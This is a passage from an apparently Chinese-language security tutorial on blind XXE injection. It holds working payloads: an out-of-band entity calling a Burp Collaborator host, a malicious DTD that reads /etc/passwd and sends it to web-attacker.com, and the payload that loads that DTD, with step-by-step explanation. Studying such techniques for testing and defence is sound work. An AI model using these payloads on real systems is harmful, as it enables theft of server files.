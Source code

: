 ```bash
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://zcfht5rvm0tol8h8o6rym5kwnntdh2.burpcollaborator.net"> %xxe; ]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

[![](assets/1706060044-6a4e2fc4d76b21037cfdc392c3585593.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131507-5f98b50e-b9ae-1.png)

#### 文件外带

使用带外技术检测一个盲注类型的 XXE 漏洞是非常方便的，但它并不能真正证明该漏洞是如何被利用的，攻击者真正想要实现的是泄露敏感数据，这可以通过盲注 XXE 漏洞实现，但它涉及攻击者在其控制的系统上托管恶意 DTD，然后从带内 XXE 有效负载中调用外部 DTD，恶意 DTD 对/etc/passwd 文件的内容进行过滤的示例如下：

```bash
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

此 DTD 执行以下步骤：

-   定义一个名为 file 的 XML 参数实体，该实体包含/etc/passwd 文件的内容
-   定义一个名为 eval 的 XML 参数实体，其中包含另一个称为 exfiltere 的 XML 参数主体的动态声明，exfiltere 实体将通过向攻击者的 web 服务器发出 HTTP 请求来评估，该请求包含 URL 查询字符串中文件实体的值
-   使用 eval 实体，这将导致执行 exfiltered 实体的动态声明
-   使用 exfiltere 实体，以便通过请求指定的 URL 来计算其值

攻击者必须将恶意 DTD 托管在他们控制的系统上，通常是将其加载到自己的 Web 服务器上，例如：攻击者可能在以下 URL 提供恶意 DTD

```bash
http://web-attacker.com/malicious.dtd
```

最后攻击者必须向易受攻击的应用程序提交以下 XXE 负载，这个 XXE 有效载荷声明了一个名为 XXE 的 XML 参数实体，然后在 DTD 中使用该实体，这将导致 XML 解析器从攻击者的服务器获取外部 DTD 并对其进行内联解释，然后执行恶意 DTD 中定义的步骤并将/etc/passwd 文件传输到攻击者的服务器

```bash
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```
